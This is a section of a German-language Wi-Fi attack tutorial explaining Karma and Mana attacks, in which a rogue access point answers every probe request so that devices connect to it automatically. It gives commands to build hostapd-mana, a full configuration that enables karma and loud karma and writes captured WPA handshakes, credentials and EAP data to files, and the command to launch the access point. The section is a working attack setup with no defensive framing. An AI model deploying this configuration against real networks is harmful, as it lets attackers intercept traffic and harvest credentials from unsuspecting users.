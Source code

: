 
## 7. Karma und Mana Attacks

### Theorie: Probe Request Exploitation

**Normale Situation:**
- Client sucht bekannte Netzwerke
- Sendet Probe Requests: "Kennt jemand 'HomeWiFi'?"
- Nur echte "HomeWiFi" AP antwortet

**Karma Attack:**
- Angreifer-AP antwortet auf **ALLE** Probe Requests
- "Ja, ich bin 'HomeWiFi'!" (lügt)
- Client verbindet sich
- Client denkt es ist zuhause

**Mana Attack:**
- Wie Karma, aber moderner
- Antwortet auch auf Broadcasts
- Aggressiver

### Karma Attack mit hostapd-mana

```bash
# Installiere hostapd-mana
git clone https://github.com/sensepost/hostapd-mana
cd hostapd-mana
make
make install
```

**hostapd-mana Config:**
```bash
cat > /tmp/mana.conf << EOF
interface=wlan0
driver=nl80211
ssid=InternetAccess
channel=6

# Karma aktivieren
karma_attack=1

# Enable Loud Karma (antwortet auf Broadcast Probes)
enable_loud_karma=1

# MANA
mana_wpaout=/tmp/mana_wpa.txt
mana_credout=/tmp/mana_credentials.txt
mana_eapout=/tmp/mana_eap.txt
EOF
```

**Starte:**
```bash
hostapd-mana /tmp/mana.conf

# AP ist jetzt live
# Antwortet auf ALLE Probe Requests
# Clients verbinden sich automatisch
```

